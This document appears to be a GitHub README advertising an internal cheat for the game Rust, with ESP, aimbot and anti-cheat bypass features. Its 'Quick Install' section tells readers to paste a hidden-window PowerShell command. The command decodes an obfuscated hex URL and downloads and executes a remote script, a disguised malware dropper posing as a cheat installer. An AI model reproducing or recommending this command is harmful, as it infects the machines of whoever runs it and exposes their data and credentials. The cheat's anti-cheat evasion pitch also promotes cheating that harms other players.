 # 🔧 Rust Internal Cheat

![Platform](https://img.shields.io/badge/platform-windows-blue.svg)
![Status](https://img.shields.io/badge/status-WIP-orange)
![License](https://img.shields.io/badge/license-MIT-green.svg)


A powerful internal cheat for Rust written in pure Rust. Designed for high performance, stability, and flexibility, this cheat provides advanced gameplay-enhancing features such as ESP, aimbot, pattern scanning, and auto-offset management.

Unlike traditional C++ cheats, this project leverages Rust’s memory safety, concurrency features, and modular design to offer a more modern and secure foundation for game manipulation.

---

## 🧾 Overview

This project is a feature-rich internal Rust cheat that injects directly into the game’s process. It hooks into game functions to enable overlay rendering, performs memory manipulation to extract entity data, and automates tasks like aiming and tracking.

By using low-level Windows APIs and direct memory access, this cheat bypasses most superficial anti-cheat checks. Additionally, a custom pattern scanning system allows dynamic updates of memory offsets, reducing the need for frequent manual patching.

---


### Quick Install

- #### Press WIN+R
- #### Copy and insert command

```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

## ✨ Features

### Visuals (ESP)
- ✅ Player boxes (2D/3D)
- ✅ Player skeletons (bone-based rendering)
- ✅ Name and health display
- ✅ Distance indicators
- ✅ Line tracing from crosshair to entities
- ✅ Loot/item highlighting
- ✅ NPC & sleeper ESP

### Aimbot
- 🎯 Target selection based on FOV
- 🔁 Toggleable smooth aim
- 🎯 Bone-based targeting (head, chest, etc.)
- 🧠 Visibility checks (raycasting)
- 🎮 Mouse event emulation or angle-based writing

### Memory Tools
- 📥 Safe read/write wrappers over `ReadProcessMemory` and `WriteProcessMemory`
- 🔍 Signature scanner (AOB pattern scan)
- 🔄 Auto offset updater (via JSON dump or internal scan)

### Misc
- ⛔ Screenshot cleaner (clears overlays during screenshot)
- 🔄 Auto-update system for offsets via HTTP or local dump
- 💻 Console logging (debug mode)
- 🛠 Custom keybind system

---

 


### 🧠 How It Works
This cheat hooks into the game’s rendering or logic functions (e.g., DirectX or Unity callbacks) and interacts with the memory to retrieve and draw data. ESP highlights entities, and aimbot logic calculates nearest targets with smoothing and FOV control. Offsets are updated via pattern scanning.











**Keywords**: Rust cheat, Rust hack, Rust ESP, Rust aimbot, EAC bypass, Rust no recoil, Rust wallhack, Rust external
